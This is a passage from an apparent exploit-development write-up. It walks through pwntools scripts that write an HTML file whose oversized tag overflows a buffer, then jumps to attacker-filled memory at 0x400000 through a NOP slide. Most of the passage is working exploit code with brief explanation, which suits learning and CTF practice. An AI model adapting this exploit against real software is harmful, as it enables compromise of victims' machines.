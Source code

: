 ```python
exploit + = gen.get(0x12)
# 9 byte exploit goes here
exploit += b''
# make sure our exploit is 32 chars long
# align cyclic
gen.get(len(exploit)-0x12)
exploit += gen.get(0x20 - len(exploit))

print(exploit.hex())
with open('test.htm', 'wb') as exploithtm:
  exploithtm.write(HEADER)
  exploithtm.write(tagger(exploit))
  # append a lot of characters
  exploithtm.write(cyclic(MAX_LENGTH, alphabet=string.printable.encode()))
```



![Add user controlled memory](https://gfelber.dev/img/user_controlled_memory.png)

After allocating a lot of memory through adding a lot of characters (`0x100000`) we can jump through memory in `0x100000` steps to see were our data is written and we find out, that `0x400000` hast allocated our data.

We can use this knowledge to rewrite our exploit to jmp to `0x400000` and place a NOP slide at user controlled memory

```python
#!/bin/python
from pwn import *

HEADER = b'<html><body>'
MAX_LENGTH=0x100000

def nop(size):
  return b'\x90' * size

def tagger(tag):
  return b'<' + tag + b'/>'

TAG_LENGTH = 0x20
OVERFLOW_START = 0xb
JMP_CODE = 0x12
gen = cyclic_gen()
exploit = gen.get(OVERFLOW_START)
exploit += asm('lodsb')
exploit += asm('jmp $')
exploit += gen.get(JMP_CODE - len(exploit))
# 14 byte exploit goes here
exploit += asm('xor eax, eax')
exploit += asm('mov al, 0x40')
exploit += asm('shl eax, 0x10')
exploit += asm('jmp eax')
# make sure our exploit is 32 chars long
exploit += gen.get(TAG_LENGTH - len(exploit))

print(exploit.hex())
with open('test.htm', 'wb') as exploithtm:
  exploithtm.write(HEADER)
  exploithtm.write(tagger(exploit))
  # append a lot of NOPs
  exploithtm.write(nop(MAX_LENGTH))
```
